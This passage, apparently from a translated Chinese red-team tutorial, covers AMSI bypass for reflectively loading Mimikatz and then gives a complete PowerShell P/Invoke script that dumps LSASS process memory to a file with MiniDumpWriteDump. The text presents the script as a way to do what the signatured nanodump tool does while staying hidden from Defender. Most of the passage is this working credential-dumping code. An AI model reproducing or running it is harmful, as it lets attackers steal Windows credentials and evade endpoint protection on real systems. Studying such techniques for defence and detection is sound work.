   
幸运的是，这个 repo不仅包含每个著名工具的大量预构建脚本，还包含从二进制文件创建您自己的脚本的说明。  

  * 

    
    
    https://github.com/S3cur3Th1sSh1t/PowerSharpPack

对于这个 PoC，我将执行 Mimikatz，但你可以随意使用任何其他工具。  
反射加载 Mimikatz。  
![](https://gitee.com/fuli009/images/raw/master/public/20230621095508.png)  
请注意，如前所述，某些二进制文件可能不需要绕过 AMSI，具体取决于您在脚本中应用的二进制文件的字符串表示形式。但由于 Invoke-Mimikatz
广为人知，因此我需要在本示例中执行此操作。  
  

![](https://gitee.com/fuli009/images/raw/master/public/20230621095455.png)

 **10  P/Invoke C#程序集**

  
P/Invoke 或 Platform Invoke 允许我们从非托管的本机 Windows DLL 访问结构、回调和函数，以便访问可能无法直接从 .NET
获得的本机组件中的较低级别 API。（类似的功能，JAVA中叫JNI）  
  
现在，由于我们知道它的作用，并且知道我们可以在 PowerShell 中使用 .NET，这意味着我们可以从 PowerShell 脚本访问低级
API，如果我们之前修补了 AMSI，我们可以在没有 Defender 监视的情况下运行该脚本。  
对于这个概念证明，假设我们想通过 MiniDumpWriteDump 将 LSASS
进程转储到文件中，该文件在“Dbghelp.dll”中可用。为此，我们可以利用fortra 的 nanodump 工具。但是，Microsoft
有一堆该工具的特征码。相反，我们可以利用 P/Invoke 编写一个 PowerShell 脚本来执行相同的操作，但我们可以修补 AMSI
以使其在这样做时变得不可检测。  

  * 

    
    
    https://github.com/fortra/nanodump

因此，我将为 PoC 使用以下 PS 代码。  
MiniDumpWriteDump.ps  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    Add-Type @"    using System;    using System.Runtime.InteropServices;  
        public class MiniDump {        [DllImport("Dbghelp.dll", SetLastError=true)]        public static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);    }"@  
    $PROCESS_QUERY_INFORMATION = 0x0400$PROCESS_VM_READ = 0x0010$MiniDumpWithFullMemory = 0x00000002  
    Add-Type -TypeDefinition @"    using System;    using System.Runtime.InteropServices;  
        public class Kernel32 {        [DllImport("kernel32.dll", SetLastError=true)]        public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);        [DllImport("kernel32.dll", SetLastError=true)]        public static extern bool CloseHandle(IntPtr hObject);    }"@  
    $processId ="788"  
    $processHandle = [Kernel32]::OpenProcess($PROCESS_QUERY_INFORMATION -bor $PROCESS_VM_READ, $false, $processId)  
    if ($processHandle -ne [IntPtr]::Zero) {    $dumpFile = [System.IO.File]::Create("C:\users\public\test1234.txt")    $fileHandle = $dumpFile.SafeFileHandle.DangerousGetHandle()  
        $result = [MiniDump]::MiniDumpWriteDump($processHandle, $processId, $fileHandle, $MiniDumpWithFullMemory, [IntPtr]::Zero, [IntPtr]::Zero, [IntPtr]::Zero)  
        if ($result) {        Write-Host "Sucess"    } else {        Write-Host "Failed" -ForegroundColor Red    }  
        $dumpFile.Close()    [Kernel32]::CloseHandle($processHandle)} else {    Write-Host "Failed to open process handle." -ForegroundColor Red}
